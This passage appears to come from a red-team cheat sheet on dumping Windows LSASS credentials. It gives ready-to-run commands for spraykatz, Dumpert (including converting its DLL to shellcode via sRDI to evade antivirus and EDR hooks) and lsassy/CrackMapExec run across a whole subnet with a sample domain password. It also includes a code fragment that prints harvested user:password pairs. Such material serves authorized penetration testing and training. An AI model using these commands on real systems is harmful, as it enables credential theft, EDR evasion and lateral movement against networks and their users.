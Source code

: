 ```python
    if u and p and p != 'None': s.add(d + '\\' + f'{u}:{p}')
for i in s: pp(i)
```
{% endcode %}



### spraykatz

* [https://github.com/aas-n/spraykatz](https://github.com/aas-n/spraykatz)

```
$ python3 spraykatz.py -u snovvcrash -p 'Passw0rd!' -t 10.10.13.37,10.10.13.38,10.10.13.39
```



### Dumpert

* [https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/)
* [https://github.com/outflanknl/Dumpert](https://github.com/outflanknl/Dumpert)

Dump lsass.exe using direct syscalls and removing user-land API hooks:

```
Cmd > rundll32.exe .\Outflank-Dumpert-DLL.dll,Dump
```

Using [sRDI](https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/) (**s**hellcode **R**eflective **D**LL **I**njection) technique:

1. Compile [*Outflank-Dumpert-DLL.dll*](https://github.com/outflanknl/Dumpert/tree/master/Dumpert-DLL).
2. Convert it to position independent shellcode with [*ConvertToShellcode.py*](https://github.com/monoxgas/sRDI/blob/master/Python/ConvertToShellcode.py): `python3 ConvertToShellcode.py Outflank-Dumpert-DLL.dll`.
3. Use a shellcode loader of your choice to dump LSASS.



### lsassy

* [https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)
* [https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/lsassy.py](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/lsassy.py)
* [https://en.hackndo.com/remote-lsass-dump-passwords/](https://en.hackndo.com/remote-lsass-dump-passwords/)

```
$ lsassy 10.10.13.0/24 -d megacorp.local -u snovvcrash -p 'Passw0rd!'
$ cme smb 10.10.13.0/24 -u snovvcrash -p 'Passw0rd!' -M lsassy
```



### MalSeclogon
